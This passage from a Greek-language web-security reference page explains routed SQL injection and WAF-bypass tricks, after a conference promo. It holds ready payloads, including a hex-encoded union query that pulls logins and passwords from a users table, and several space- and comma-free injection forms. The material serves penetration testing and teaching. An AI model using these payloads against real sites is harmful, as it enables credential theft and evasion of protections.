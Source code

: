 ​​​​​​[**RootedCON**](https://www.rootedcon.com/) είναι η πιο σχετική εκδήλωση κυβερνοασφάλειας στην **Ισπανία** και μία από τις πιο σημαντικές στην **Ευρώπη**. Με **αποστολή την προώθηση της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένα καυτό σημείο συνάντησης για επαγγελματίες της τεχνολογίας και της κυβερνοασφάλειας σε κάθε τομέα.

{% embed url="https://www.rootedcon.com/" %}

## Routed SQL injection

Routed SQL injection είναι μια κατάσταση όπου το ερωτηματικό που μπορεί να εισαχθεί δεν είναι αυτό που δίνει έξοδο, αλλά η έξοδος του ερωτηματικού που μπορεί να εισαχθεί πηγαίνει στο ερωτηματικό που δίνει έξοδο. ([From Paper](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Routed%20SQL%20Injection%20-%20Zenodermus%20Javanicus.txt))

Example:
```
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```
## WAF Bypass

[Initial bypasses from here](https://github.com/Ne3o1/PayLoadAllTheThings/blob/master/SQL%20injection/README.md#waf-bypass)

### No spaces bypass

No Space (%20) - παράκαμψη χρησιμοποιώντας εναλλακτικές λευκού χώρου
```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```
Χωρίς Κενά - παράκαμψη χρησιμοποιώντας σχόλια
```sql
?id=1/*comment*/and/**/1=1/**/--
```
Χωρίς Κενά - παράκαμψη χρησιμοποιώντας παρενθέσεις
```sql
?id=(1)and(1)=(1)--
```
### No commas bypass

No Comma - παράκαμψη χρησιμοποιώντας OFFSET, FROM και JOIN
```
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```
### Γενικές Παράκαμψεις

